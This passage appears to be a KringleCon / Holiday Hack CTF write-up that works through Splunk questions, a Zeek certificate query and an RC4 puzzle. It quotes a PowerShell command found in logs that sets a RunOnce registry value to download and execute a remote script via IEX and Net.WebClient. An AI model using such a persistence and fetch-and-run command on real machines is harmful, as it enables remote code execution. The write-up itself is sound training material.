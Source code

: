 Searching for the most often abused registry key for this purpose, `CurrentVersion\\RunOnce`, I easily found this powershell command:
```
set-itemproperty $RunOnceKey \""NextRun\"" 'powershell.exe \""IEX (New-Object Net.WebClient).DownloadString(`\""https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/ARTifacts/Misc/Discovery.bat`\"")\""'}
```

[Browsing to the GitHub URL](https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/ARTifacts/Misc/Discovery.bat), it's easy to see that the last command is `quser`.

7. According to x509 certificate events captured by Zeek (formerly Bro), what is the serial number of the TLS certificate assigned to the Windows domain controller in the attack range?

First, in order to find all of our zeek x509 logs available, I perform a search for `index=* sourcetype="bro*"`. Looking at the structure of the returned entries, it seems that the `source` field is the file that the logs came from. As such, we can filter for X509 logs by adding `source="/opt/zeek/logs/current/x509.log"` to our query. As we're specifically looking for the domain controller's certificate serial, we can refine these results further by adding `"certificate.subject"="CN=win-dc-748.attackrange.local"`.

With the resulting query, pasted below, it's easy to identify that the serial needed is "55FCEEBB21270D9249E86F4B9DC7AA60".
```
index=* sourcetype="bro*" source="/opt/zeek/logs/current/x509.log" "certificate.subject"="CN=win-dc-748.attackrange.local"
```

After answering the seventh question, Alice Bluebird tells us in chat:
```
This last one is encrypted using your favorite phrase! The base64 encoded ciphertext is:

7FXjP1lyfKbyDK/MChyf36h7

It's encrypted with an old algorithm that uses a key. We don't care about RFC 7465 up here! I leave it to the elves to determine which one!
```

[The RFC she mentions is titled "Prohibiting RC4 Cipher Suites"](https://tools.ietf.org/html/rfc7465), leading me to believe that the cipher used was RC4.

As we're not actually Santa, we ask Alice: "My favorite phrase?" She lets us know:

```
I can't believe the Splunk folks put it in their talk!
```

#### Challenge Question

In the KringleCon talk ["Adversary Emulation and Automation" by Dave Herrald](https://youtu.be/RxVgEFt08kU?t=1115), they seem to indicate that Santa likes to "Stay Frosty".

Using [CyberChef](https://gchq.github.io/CyberChef/), it's simple to plug in our ciphertext, make a recipe to decode base64, then apply RC4 with the passphrase "Stay Frosty", which results in the plaintext "The Lollipop Guild" - the answer to our final question.

### CAN-D-BUS
>Jack Frost is somehow inserting malicious messages onto the sleigh's CAN-D bus. We need you to exclude the malicious messages and no others to fix the sleigh. Visit the NetWars room on the roof and talk to Wunorse Openslae for hints.
